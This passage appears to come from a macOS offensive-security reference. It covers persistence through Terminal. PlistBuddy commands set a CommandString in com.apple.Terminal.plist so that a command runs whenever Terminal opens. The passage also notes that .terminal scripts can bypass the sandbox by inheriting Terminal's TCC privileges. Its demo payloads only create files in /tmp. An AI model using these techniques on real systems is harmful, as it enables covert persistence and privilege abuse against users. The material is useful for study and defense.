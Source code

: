 This config is reflected in the file **`~/Library/Preferences/com.apple.Terminal.plist`** like this:

```bash
[...]
"Window Settings" => {
    "Basic" => {
      "CommandString" => "touch /tmp/terminal_pwn"
      "Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
      "FontAntialias" => 1
      "FontWidthSpacing" => 1.004032258064516
      "name" => "Basic"
      "ProfileCurrentVersion" => 2.07
      "RunCommandAsShell" => 0
      "type" => "Window Settings"
    }
[...]
```

So, if the plist of the preferences of the terminal in the system could be overwritten, the the **`open`** functionality can be used to **open the terminal and that command will be executed**.

You can add this from the cli with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Terminal Scripts

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)

#### Location

* **Anywhere**
  * **Trigger**: Open Terminal

#### Description & Exploitation

If you create a [**`.terminal`** script](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) and opens, the **Terminal application** will be automatically invoked to execute the commands indicated in there. If the Terminal app has some special privileges (such as TCC), your command will be run with those special privileges.
